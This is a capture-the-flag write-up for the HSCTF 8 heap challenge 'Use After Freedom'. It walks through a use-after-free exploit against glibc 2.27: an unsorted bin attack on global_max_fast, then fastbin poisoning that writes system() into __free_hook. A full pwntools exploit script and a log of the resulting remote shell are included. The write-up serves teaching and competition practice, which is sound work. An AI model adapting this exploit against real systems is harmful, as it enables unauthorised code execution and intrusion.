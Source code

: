 ## Use After Freedom

> Points: 493
>
> Solves: 21

### Description:
```
Use after free vulnerabilities are easy to exploit, right?

nc use-after-freedom.hsc.tf 1337
```

### Files:
```
use_after_freedom
libc-2.27.so
```

## Analysis:

Check security
```asm
$ checksec use_after_freedom
[*] '/home/mito/CTF/HSCTF_8/Pwn_Use_After_Freedom/use_after_freedom'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

Memory map
```asm
pwndbg> vmmap
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
    0x555555554000     0x555555556000 r-xp     2000 0      /home/mito/CTF/HSCTF_8/Pwn_Use_After_Freedom/use_after_freedom
    0x555555755000     0x555555756000 r--p     1000 1000   /home/mito/CTF/HSCTF_8/Pwn_Use_After_Freedom/use_after_freedom
    0x555555756000     0x555555757000 rw-p     1000 2000   /home/mito/CTF/HSCTF_8/Pwn_Use_After_Freedom/use_after_freedom
    0x555555757000     0x555555778000 rw-p    21000 0      [heap]
    0x7ffff79e2000     0x7ffff7bc9000 r-xp   1e7000 0      /lib/x86_64-linux-gnu/libc-2.27.so
    0x7ffff7bc9000     0x7ffff7dc9000 ---p   200000 1e7000 /lib/x86_64-linux-gnu/libc-2.27.so
    0x7ffff7dc9000     0x7ffff7dcd000 r--p     4000 1e7000 /lib/x86_64-linux-gnu/libc-2.27.so
    0x7ffff7dcd000     0x7ffff7dcf000 rw-p     2000 1eb000 /lib/x86_64-linux-gnu/libc-2.27.so
    0x7ffff7dcf000     0x7ffff7dd3000 rw-p     4000 0      
    0x7ffff7dd3000     0x7ffff7dfc000 r-xp    29000 0      /lib/x86_64-linux-gnu/ld-2.27.so
    0x7ffff7fd5000     0x7ffff7fd7000 rw-p     2000 0      
    0x7ffff7ff7000     0x7ffff7ffa000 r--p     3000 0      [vvar]
    0x7ffff7ffa000     0x7ffff7ffc000 r-xp     2000 0      [vdso]
    0x7ffff7ffc000     0x7ffff7ffd000 r--p     1000 29000  /lib/x86_64-linux-gnu/ld-2.27.so
    0x7ffff7ffd000     0x7ffff7ffe000 rw-p     1000 2a000  /lib/x86_64-linux-gnu/ld-2.27.so
    0x7ffff7ffe000     0x7ffff7fff000 rw-p     1000 0      
    0x7ffffffde000     0x7ffffffff000 rw-p    21000 0      [stack]
0xffffffffff600000 0xffffffffff601000 r-xp     1000 0      [vsyscall]
```

## Solution:

The vulnerability of this challenge is UAF.

However, the address malloced from the following function must satisfy the following conditions.
Therefore, the address of __free_hook cannot be allocated by malloc.
> 0x555555757260 < malloc address < 0x600000000000

```c
void * FUN_0010092a(int param_1)

{
  void *pvVar1;
  
  pvVar1 = malloc((long)param_1);
  if ((pvVar1 <= DAT_00302010) && (DAT_00302040 <= pvVar1)) {
    return pvVar1;
  }
  puts("Memory corruption detected!");
                    /* WARNING: Subroutine does not return */
  exit(-1);
}

```

```asm
pwndbg> x/30gx 0x555555756000
0x555555756000:	0x0000000000000000	0x0000555555756008
0x555555756010:	0x0000600000000000	0x0000000000000000
0x555555756020 <stdout>:	0x00007ffff7dce760	0x0000000000000000
0x555555756030 <stdin>:	0x00007ffff7dcda00	0x0000000000000000
0x555555756040:	0x0000555555757260	0x0000000000000000
0x555555756050:	0x0000000000000000	0x0000000000000000
```

We can write a large value to global_max_fast with the following command.

> Obtain((FREE_HOOK - MAIN_ARENA)*2-0x10, "A") #0
>
> Obtain(0x100, "/bin/sh\x00") #1
>
> Lose(0)
>
> Change(0, p64(libc_leak) + p64(global_max_fast - 0x10))
>
> Obtain((FREE_HOOK - MAIN_ARENA)*2-0x10, "C") #2
```asm
0x7ffff7dcf930 <dumped_main_arena_end>:	0x0000000000000000	0x0000000000000000
0x7ffff7dcf940 <global_max_fast>:	0x00007ffff7dcdca0	0x0000000000000000
0x7ffff7dcf950 <root>:	0x0000000000000000	0x0000000000000000
```

We write to the extended fastbin with the following command.
> Lose(2)
> 
> Change(0, p64(system_addr))
```asm
0x555555757250:	0x0000000000000000	0x0000000000003951
0x555555757260:	0x00007ffff7a31550	0x747461206e696220
0x555555757270:	0x00000000216b6361	0x0000000000000000
```

We can write the address of system () to __free_hook with the following command.
> Obtain((FREE_HOOK - MAIN_ARENA)*2-0x10, "D") #3
```asm
0x7ffff7dcf8d8 <_IO_stdfile_0_lock+8>:	0x0000000000000000	0x0000000000000000
0x7ffff7dcf8e8 <__free_hook>:	0x00007ffff7a31550	0x0000000000000000
0x7ffff7dcf8f8 <next_to_use.11807>:	0x0000000000000000	0x0000000000000000
```

## Exploit code:
```python
#!/usr/bin/python3
from pwn import *

#context(os='linux', arch='amd64')
#context.log_level = 'debug'

BINARY = './use_after_freedom'
elf  = ELF(BINARY)

if len(sys.argv) > 1 and sys.argv[1] == 'r':
  HOST = "use-after-freedom.hsc.tf"
  PORT = 1337
  s = remote(HOST, PORT)
  libc = ELF("./libc-2.27.so")
else:
  s = process(BINARY)
  #s = process(BINARY, env={'LD_PRELOAD': './libc-2.27.so'})
  libc = elf.libc
  #libc = ELF("./libc-2.27.so")

def Obtain(size, data):
  s.sendlineafter("> ", "1")
  s.sendlineafter("> ", str(size))
  s.sendlineafter("> ", data)

def Lose(idx):
  s.sendlineafter("> ", "2")
  s.sendlineafter("> ", str(idx))

def Change(idx, data):
  s.sendlineafter("> ", "3")
  s.sendlineafter("> ", str(idx))
  s.sendlineafter("> ", data)

def View(idx):
  s.sendlineafter("> ", "4")
  s.sendlineafter("> ", str(idx))

MAIN_ARENA      = libc.sym.__malloc_hook + 0x10
FREE_HOOK       = libc.sym.__free_hook
GLOBAL_MAX_FAST = 0x3ed940 # 0x7ffff7dcf940 - 0x7ffff79e2000

Obtain((FREE_HOOK - MAIN_ARENA)*2-0x10, "A") #0
Obtain(0x100, "/bin/sh\x00") #1

# libc leak
Lose(0)
View(0)
r = s.recvuntil("\n")[:-1]
libc_leak = u64(r + b"\x00\x00")
libc_base = libc_leak - libc.sym.__malloc_hook - 0x70
global_max_fast = libc_base + GLOBAL_MAX_FAST
system_addr     = libc_base + libc.sym.system
print("libc_leak =", hex(libc_leak))
print("libc_base =", hex(libc_base))

# Unsorted bin attack
Change(0, p64(libc_leak) + p64(global_max_fast - 0x10))
Obtain((FREE_HOOK - MAIN_ARENA)*2-0x10, "C") #2

# fastbin poisoning
Lose(2)
Change(0, p64(system_addr))
Obtain((FREE_HOOK - MAIN_ARENA)*2-0x10, "D") #3

# Start /bin/sh
Lose(1)

s.interactive()
```

## Results:
```bash
mito@ubuntu:~/CTF/HSCTF_8/Pwn_Use_After_Freedom$ python3 solve.py r
[*] '/home/mito/CTF/HSCTF_8/Pwn_Use_After_Freedom/use_after_freedom'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to use-after-freedom.hsc.tf on port 1337: Done
[*] '/home/mito/CTF/HSCTF_8/Pwn_Use_After_Freedom/libc-2.27.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
libc_leak = 0x7f69d1731ca0
libc_base = 0x7f69d1346000
[*] Switching to interactive mode
$ id
uid=1000(user) gid=1000(user) groups=1000(user)
$ cat flag
flag{ok_but_why_is_global_max_fast_even_writeable}
```






